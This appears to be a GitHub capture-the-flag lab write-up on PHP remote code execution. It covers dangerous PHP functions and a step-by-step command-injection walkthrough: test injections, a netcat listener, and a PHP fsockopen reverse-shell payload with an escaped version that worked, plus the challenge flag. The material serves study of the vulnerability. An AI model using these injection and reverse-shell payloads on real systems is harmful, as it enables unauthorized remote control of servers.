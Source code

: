 # LEKIR - Remote Code Execution (RCE) 

![Security Banner](https://img.shields.io/badge/Security-Research-blue) 
![Educational](https://img.shields.io/badge/Purpose-Educational-green)

- Write-Up Author: whoami \[[whoami]([firdauskhairuddin](https://github.com/firdauskhairuddin))\]
- Flag: firdausmemanghensem

A repository documenting my learning journey about Remote Code Execution vulnerabilities, particularly in PHP environments.

## 📌 Overview

Remote Code Execution (RCE) is a critical security vulnerability that allows attackers to execute arbitrary commands on a target server. This repository contains my notes, payloads, and mitigation strategies learned while studying RCE vulnerabilities.

## 🔥 Key Concepts

### What is RCE?
- Allows attackers to execute commands on a remote system
- Often achieved through injection vulnerabilities
- Can lead to complete system compromise
- Commonly rated as Critical severity (CVSS 9.0+)

### Common Attack Vectors:
- Unsanitized user input passed to execution functions
- Insecure file upload handling
- Dangerous deserialization
- Server-side template injection

## 💻 Dangerous PHP Functions

These PHP functions can lead to RCE if used improperly with user input:

| Function       | Risk Level | Description |
|----------------|------------|-------------|
| `exec()`       | High       | Executes external program |
| `system()`     | High       | Executes command and displays output |
| `passthru()`   | High       | Executes command and displays raw output |
| `shell_exec()` | High       | Executes command via shell |
| Backticks (`` ` ``) | High | Same as shell_exec() |
| `popen()`      | Medium     | Opens process file pointer |
| `proc_open()`  | Medium     | Advanced process control |

## 🛠️ WriteUp
![Screenshot 2025-04-11 125153](https://github.com/user-attachments/assets/025d756b-5b10-4325-94e7-2fbb603b1cda)

## Challenge Description:

>this is challenge description
It's a vulnerability that allows an attacker to execute arbitrary code on a target system remotely. Attackers exploit this vulnerability by injecting malicious code into an application or system, often through input fields or file uploads. Once exploited, RCE can lead to complete compromise of the target system, allowing attackers to steal data, install malware, or take control of the system. To prevent RCE vulnerabilities, applications should sanitize user input, validate file uploads, and implement proper security controls to restrict code execution.

# Investigate Vulnerability
* Test for Vulnerability. To test if the page is vulnerable, try injecting a simple command such as ; ls or && whoami. If the command is executed and the result is displayed (like listing the directory contents or showing the current user), then the application is vulnerable to OS command injection.

* Try PHP Function to Executes command and displays output

```c
system('ls')
```
![Screenshot 2025-04-11 123905](https://github.com/user-attachments/assets/c0c43056-a40d-44d6-b607-b5a2de780777)

its shows all the file and folder in the Database.

# Find The Docker IP Address

__Purpose :__

* Identifying the Docker container's IP address is crucial because it allows you to direct the backdoor connection back to your machine.

__Command :__

In a new terminal, run the following command `ip a`

![Screenshot 2025-04-11 131547](https://github.com/user-attachments/assets/9416bfc1-f07d-4bb3-acbc-a535749813d3)

Choose Docker0

![Screenshot 2025-04-11 154814](https://github.com/user-attachments/assets/ff187377-a098-40a4-8a91-93e861c44be6)

__Explanation :__

* his command displays all network interfaces and their associated IP addresses. Look for the `docker0` interface, which typically represents the Docker bridge network. The IP address associated with this interface is what you’ll use to direct the reverse shell.

## Set Up a Netcat Listener

**Purpose:**  
The Netcat listener will wait for an incoming connection from the target system, which will be initiated by the backdoor script.

**Command:**  
Set up a listener on a specific port (e.g., 4444) using the following command:

`nc -lvnp 3333`

![Screenshot 2025-04-11 155534](https://github.com/user-attachments/assets/f6c5c717-9095-4407-8b3a-f0aa6f656137)

**Explanation**

* The `-l` flag tells Netcat to listen for incoming connections, `-v` makes it verbose (to display the connection details), `-n` prevents DNS lookups, and `-p` specifies the port number to listen on. Once the backdoor script is executed on the target system, it will connect back to your machine on this port, giving you shell access.

## Execute The Reverse Shell

* Example command to inject from  Reverse Shell Cheat Sheet (https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php)
  
`php -r '$sock=fsockopen("172.18.0.1",3333);system("/bin/sh -i <&3 >&3 2>&3");'`

![Screenshot 2025-04-11 160104](https://github.com/user-attachments/assets/a8fecf88-ba68-41fa-b345-2de6b6257428)

![Screenshot 2025-04-11 160127](https://github.com/user-attachments/assets/ac5431dd-ec57-4083-88e3-a77f92547deb)

nothing happend because we need to modified the payload

* Before

`system('php -r '$sock=fsockopen("172.17.0.1",3333);system("/bin/sh -i <&3 >&3 2>&3");'')`

* After

`system('php -r \'$sock=fsockopen("172.17.0.1",3333);system("/bin/sh -i <&3 >&3 2>&3");\' ')`

**Changes Made:**

1. Added Backslash Escaping (`\'`):
   
   * Before: Single quotes were mismatched and would break the command
   * After: Properly escaped inner single quotes with backslashes
   
2. Fixed Quote Nesting:

   * Before: Had unbalanced quotes causing syntax errors
   * After: Clear hierarchy of quotes (outer `'` for PHP, inner `\'` for the -r argument)

* Inject new payload

## Gain Shell Access

* Once the payload is successfully injected and executed, you should see a connection on your Netcat listener. This connection gives you shell access to the target system, allowing you to execute commands as if you were directly logged into the server.

![image](https://github.com/user-attachments/assets/158b384c-bbc2-4be5-b26b-fdb10dcb3f13)

![image](https://github.com/user-attachments/assets/03bda416-12b2-4522-b954-a6715891f6a8)

![image](https://github.com/user-attachments/assets/efc1c590-40b5-4f73-a811-fa261d7ff3b3)


## 🔐 Conclusion: Key Takeaways from This RCE Lab

1. **RCE is Extremely Dangerous**  
   - Allows attackers to execute any command on your server  
   - Can lead to full system compromise  

2. **Common Causes**  
   - Unsafe functions like `eval()`, `system()` with user input  
   - Lack of input validation/sanitization  
   - Improper error handling exposing system details  











